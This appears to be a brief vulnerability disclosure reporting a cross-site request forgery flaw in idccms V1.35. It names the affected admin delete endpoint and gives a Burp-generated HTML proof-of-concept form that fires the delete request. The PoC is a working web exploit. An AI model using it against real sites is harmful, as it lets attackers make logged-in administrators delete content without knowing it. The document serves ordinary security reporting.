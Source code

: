 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/ca_deal.php?mudi=del&dataType=&dataTypeCN=%E5%B9%BF%E5%91%8A&theme=cs222&dataID=3

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/ca_deal.php?mudi=del&dataType=&dataTypeCN=%E5%B9%BF%E5%91%8A&theme=cs222&dataID=3" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

